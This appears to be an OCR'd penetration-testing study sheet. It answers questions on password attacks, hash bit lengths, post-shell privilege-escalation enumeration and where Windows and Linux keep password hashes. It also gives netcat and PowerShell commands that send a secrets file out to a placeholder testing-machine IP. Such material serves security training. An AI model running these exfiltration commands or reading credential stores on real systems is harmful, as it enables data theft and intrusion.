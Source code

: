 
### 1. Main types of password attacks?

* **Dictionary Attack:** Uses a wordlist (common passwords, target-specific words) to guess passwords. Can be used for cracking captured hashes or attacking logins when common/themed passwords are suspected.
* **Brute-Force Attack:** Tries every possible character combination. It's just a  default fallback option when dictionary attacks fail, or against systems with short/simple password requirements.

### 2. Bits per hash type?

* a. MD5: `128` bits
* b. Unsalted SHA1: `160` bits
* c. SHA256: `256` bits
* d. NTLMv2: `128` bits
* e. Salted SHA1: `160` bits

### 3. First thing to do after popping a basic user shell in Linux (goal = root)?

Perform **local enumeration** to gather information about the system and user for privilege escalation vectors. Commands like `uname -a`, `ps aux`, `sudo -l`, `find / -perm -u=s -type f 2>/dev/null` help understand the environment and find potential weaknesses.

### 4. Where are users and password hashes stored?

* a. **Windows:** Primarily in the SAM file (`C:\Windows\System32\config\SAM`). Also LSASS memory and `NTDS.dit` (Domain Controllers).
* b. **Linux:** User info in `/etc/passwd`, hashes in `/etc/shadow`.

### 5. Transfer `/secret/passwordsandstuff.bin` from remote host (blocks incoming) to testing machine?
* **a. Using netcat:**
    * Listner: `nc -lvnp <LISTENING_PORT> > passwordsandstuff.bin`
    * Sender:  `nc <TESTING_MACHINE_IP> <LISTENING_PORT> < /secret/passwordsandstuff.bin`

* **b. Using PowerShell classes:**
    * Listener:
        ```powershell
        $listener = [System.Net.Sockets.TcpListener]::new([System.Net.IPAddress]::Any, <LISTENING_PORT>); $listener.Start()
        $client = $listener.AcceptTcpClient(); $stream = $client.GetStream()
        $fileStream = [System.IO.FileStream]::new(".\passwordsandstuff.bin", [System.IO.FileMode]::Create)
        $buffer = [byte[]]::new(1024); while (($bytesRead = $stream.Read($buffer, 0, $buffer.Length)) -gt 0) { $fileStream.Write($buffer, 0, $bytesRead) }
        $fileStream.Close(); $stream.Close(); $client.Close(); $listener.Stop()
	  ```
	  
	  ```
	  
	* Sender:	
```powershell
        $client = New-Object System.Net.Sockets.TcpClient("<TESTING_MACHINE_IP>", <LISTENING_PORT>); $stream = $client.GetStream()
        $fileStream = [System.IO.FileStream]::new("/secret/passwordsandstuff.bin", [System.IO.FileMode]::Open, [System.IO.FileAccess]::Read)
        $buffer = [byte[]]::new(1024); while (($bytesRead = $fileStream.Read($buffer, 0, $buffer.Length)) -gt 0) { $stream.Write($buffer, 0, $bytesRead) }
        $fileStream.Close(); $stream.Close(); $client.Close()
```
        